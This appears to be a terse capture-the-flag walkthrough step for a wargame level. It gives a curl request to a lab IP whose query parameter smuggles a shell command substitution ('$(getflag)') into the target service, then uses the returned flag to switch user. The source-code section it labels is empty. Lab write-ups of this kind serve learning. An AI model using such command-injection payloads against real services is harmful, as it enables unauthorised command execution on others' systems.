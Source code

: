 ssh:
- `curl 192.168.56.101:4747?x='$(getflag)'`, copy the flag
- `su level05`, paste the flag as the password